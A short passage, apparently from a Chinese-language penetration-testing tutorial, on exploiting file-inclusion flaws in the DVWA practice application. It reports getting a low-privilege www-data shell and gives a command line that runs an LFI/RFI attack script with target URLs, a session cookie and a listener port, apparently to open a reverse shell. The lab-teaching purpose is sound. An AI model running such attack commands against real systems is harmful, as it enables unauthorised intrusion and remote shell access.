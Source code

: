 ![](img/0a149bad-cf5b-4443-9498-5362a47481b9.png)![](img/f55804f0-eee1-4ada-9e80-3ba646eadbe7.png)

可以看出，我们已经成功获得了一个低特权外壳`www-data`。

# 执行 RFI 漏洞攻击

要执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```

前面的命令将生成输出，如以下屏幕截图所示：
